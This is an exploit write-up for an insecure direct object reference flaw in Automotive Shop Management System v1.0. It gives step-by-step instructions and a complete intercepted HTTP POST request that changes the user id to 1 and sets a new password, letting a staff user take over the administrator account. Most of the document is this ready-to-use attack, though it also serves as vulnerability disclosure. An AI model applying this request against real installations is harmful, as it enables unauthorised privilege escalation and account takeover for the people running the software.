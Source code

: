 # Exploit Title: Automotive Shop Management System v1.0 - Insecure Direct Object Reference(IDOR)
# Exploit Author: NS Kumar (n1_x)
# Date: May 6, 2022
# Vendor Homepage: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/asms_0.zip
# Tested on: Parrot Linux, Apache, Mysql
# Vendor: oretnom23
# Version: v1.0
# Exploit Description:
# Automotive Shop Management System v1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to change the admin password(vertical privilege escalation). 

---------------------------------------- To Exploit ---------------------------------------------------------

Step 1: Login as a staff user.

Step 2: Goto profile page, you will see your profile information.

Step 3: Click save button intercept the request with burp or zap.

```bash
POST /asms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------389134231331641804881591951010
Content-Length: 825
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/asms/admin/?page=user
Cookie: PHPSESSID=pt7bcoi9ubt8dbjh972g56emu1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------389134231331641804881591951010
Content-Disposition: form-data; name="id"

1
-----------------------------389134231331641804881591951010
Content-Disposition: form-data; name="firstname"

Administrator
-----------------------------389134231331641804881591951010
Content-Disposition: form-data; name="lastname"

Admin
-----------------------------389134231331641804881591951010
Content-Disposition: form-data; name="username"

admin
-----------------------------389134231331641804881591951010
Content-Disposition: form-data; name="password"

password123
-----------------------------389134231331641804881591951010
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------389134231331641804881591951010--


```

step 4: Change the user id to 1 and username to admin and insert your own password in the password field (change first and lastname if you want).

step 5: Forward the request and turn off the proxy.

step 6: Now you can login as Administrator.

--------------------------------------------------------------------------------------------------------------